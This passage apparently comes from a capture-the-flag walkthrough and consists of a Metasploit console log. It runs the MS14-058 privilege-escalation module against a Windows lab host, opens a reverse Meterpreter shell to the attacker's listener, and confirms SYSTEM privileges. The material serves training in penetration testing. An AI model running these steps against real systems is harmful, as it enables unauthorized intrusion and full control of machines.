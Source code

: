 ```shell
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.27     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/ms14_058_track_popup_menu) > set session 1
session => 1
msf6 exploit(windows/local/ms14_058_track_popup_menu) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf6 exploit(windows/local/ms14_058_track_popup_menu) > set lport 4444
lport => 4444

msf6 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 2504 launched.
[*] Reflectively injecting the DLL into 2504...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.10:4444 -> 10.10.10.15:1032) at 2023-09-25 17:04:16 +0530

meterpreter > ls
Listing: c:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-04-13 00:18:10 +0530  Administrator
040777/rwxrwxrwx  0     dir   2017-04-12 19:33:34 +0530  All Users
040777/rwxrwxrwx  0     dir   2017-04-12 19:34:48 +0530  Default User
040777/rwxrwxrwx  0     dir   2017-04-13 00:49:46 +0530  Lakis
040777/rwxrwxrwx  0     dir   2017-04-12 19:38:32 +0530  LocalService
040777/rwxrwxrwx  0     dir   2017-04-12 19:38:31 +0530  NetworkService
```

#### Check Privileges
```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---